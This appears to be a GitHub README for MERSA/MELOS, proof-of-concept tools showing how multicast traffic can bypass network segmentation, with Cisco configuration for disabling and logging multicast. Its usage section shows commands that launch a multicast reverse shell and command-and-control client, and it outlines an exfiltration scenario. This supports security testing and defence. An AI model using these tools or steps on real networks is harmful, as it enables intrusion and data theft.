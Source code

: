 # Multicast Encrypted RSA (MERSA)
```csharp
   o       .                         o      .
                      .
  .   dBBBBBBBb dBBBBP dBBBBBb  dBBBBP dBBBBBb 
     dB'   'dP dB     dB  dBP dBP'         'BB 
    dB'dB'dB' dBBP   dBBBBP' 'BBBBb   dBBBPBB'  .
   dB'dB'dB' dBP    dBP  BB     dBP  dBP   BB' 
  dB'dB'dB' dBBBBP dBP  dB  dBBBBP' 'dBBBBBB' 
     .                                          
                                .
         .         o    
                                        .
  .      |      
       --o--      MERSA-FULLY      .
         |                                   o
 o             .
```

# Overview

 - [Documentation](./README.md#About)
 - [PoC Testing Tools](./PoC/)
 - [Configuration Solutions](./README.md#Patching)
 - [Program Usage Example](./README.md#MELOS)
 - [Additional Information](./README.md#Resources)

# About

Multicast Encrypted RSA (MERSA) and Multicast Encrypted Low Operations Shell (MELOS) are PoC tools that demonstrate how multicast can be used to undermine network security policies and bypass point-to-point network restrictions.

Multicast-Tunneling is a vulnerability that is not specific to any vendor and affects networks without the appropriate controls for multicast traffic. It occurs when multicast packets from one network segment can reach restricted servers or devices on another segment. Multicast uses protocols IGMP (L3) or PIM (L2) to route packets and works above the Internet Protocol (IP). This enables a connection between two unintended network segments that can be utilized for lateral movement, aiding in the extraction of information or the control over devices across the network.

Multicast traffic restrictions are often neglected, creating a potential risk that could go unnoticed. The primary goal of MERSA is to highlight the potential vulnerabilities imposed by multicast. The best way to minimize these risks, is to disable it on the restricted interfaces in router's configuration files. In the case that disabling multicast is not feasible, extra measures can be taken to ensure multicast traffic is contained.

# Patching

> Configuring your network with VLANs and proper configurations can mitigate most of the risks associated with multicast.

> Please consult your network administrator prior to making any changes to router configurations. Making unscheduled modifications to the configurations can have adverse effects on the services or devices operating within the network.

**How to disable multicast for Cisco IOS XE 3.2SE+**

> We advise disabling multicast on the interfaces that face public access points. This helps prevent potential issues that may arise from globally disabling multicast. 

```ruby
! Disable all multicast traffic
router(config)# no ip multicast-routing
router(config)# no ip igmp
router(config)# no ip pim

! Disable multicast on a specific interface
router(config)# interface gigabitethernet 0/0/0
router(config-if)# no ip multicast-routing
router(config-if)# no ip igmp
router(config-if)# no ip pim
router(config-if)# end
```

**How to log multicast interactions for Cisco IOS XE Everest 16.6.1+**
> Enabling logs can assist the incident response team in investigating a breach.
```ruby
! Permit a range for allowed multicast channels
router(config)# ip igmp profile 40
router(config-igmp-profile)# permit
router(config-igmp-profile)# range 224.0.0.1 233.255.255.255
router(config-igmp-profile)# exit
router(config)# interface gigabitethernet 0/0/0
router(config-if)# switchport
router(config-if)# ip igmp filter 40
router(config-if)# end

! Dedicate percentage of memory for caching multicast
router(config-mdns)# cache-memory-max 10

! Enable explicit tracking of hosts, groups, and channels for IGMPv3
! When explicit tracking is enabled, the device will use more memory
router(config)# ip multicast-routing
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-dense-mode 
router(config-if)# ip igmp version 3 
router(config-if)# ip igmp explicit-tracking
router(config-if)# end

```

**How to prevent unnecessary forwarding of multicast packets Cisco IOS XE 3.2SE+**
> Network switches may be unaware of which network devices are part of multicast groups, and which are not. It may end up forwarding multicast traffic to devices that do not need it, which takes up network bandwidth and device processing power, slowing the entire network down. IGMP Snooping allows the switch to follow communications and stop forwarding packets when unnecessary.
```ruby
! Enable IGMP Snooping Globally
router(config)# ip igmp snooping
! Enable IGMP Snooping for a VLAN
router(config)# ip igmp snooping vlan 10

! PIM Sparse Mode (PIM-SM) will reduce the spread of multicast traffic
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-mode
router(config-if)# end
```

# MELOS Usage

**Start 'MELOS.py -l' reverse shell on target**
> Changing the password will allow MELOS to run on multiple hosts at the same time.

```csharp
$ python3 melos.py --listen --password M3L05

    =[ Awaiting on 224.0.0.251:10020    ]

[10.200.40.5:55000] whoami
[10.200.40.5:55000] ifconfig
[10.200.40.5:55000] ls

```

**Start 'MELOS.py -c' command and control client**
> The password must be the same as the client otherwise the commands will not be decrypted.

```csharp
$ python3 melos.py --cmd --password M3L05

    =[ MELOS C2 224.0.0.251:10050       ]
    
melos@224.0.0.251:10050 $ whoami
     =[ Packet From 10.250.60.15:55000  ]
root
```

# Additional Information

## Attack Scenario
> Imagine that you are in a network that hosts a webserver, but due to network restrictions, you cannot interact with it or observe its traffic. By launching an attack on the external webpage and acquiring code execution, you can utilize MELOS to gain a reverse shell. This will enable you to exfiltrate files and data through the network to your device without being denied by the current policies. The use of MELOS and MERSA will depend on factors such as the network type, current configurations, and the number of security layers in place. However, if remote code execution is already established, it's probable that multicast has been not considered in the network's security measures.

## Tremeris Kynigoskylo
> MERSA is a less potent iteration of the Tremeris Kynigoskylo (TK-PoC) software. It poses a significantly lower risk and can be easily detected through various network intrusion detection systems and network monitoring applications. Unlike its predecessor, the TK-PoC project was created to covertly extract  files from internal networks without raising any red flags or displaying any unusual activity.
Multicast was used as one of the traffic types for TK-PoC to obfuscate files and data into as it was able to bypass IP network restrictions.
Additionally, without multicast logging enabled, it is notably more difficult to locate the specific device(s) that received the extracted files from within the network. This research has lead to creation of MERSA as a public tool designed to test multicast restrictions.

## Resources

> [Cisco Multicast Commands](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3850/software/release/16-12/command_reference/b_1612_3850_cr/ip_multicast_routing_commands.html)

> [Cloudflare IGMP Introduction](https://www.cloudflare.com/learning/network-layer/what-is-igmp/)

> [IANA Multicast Addresses](https://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml)
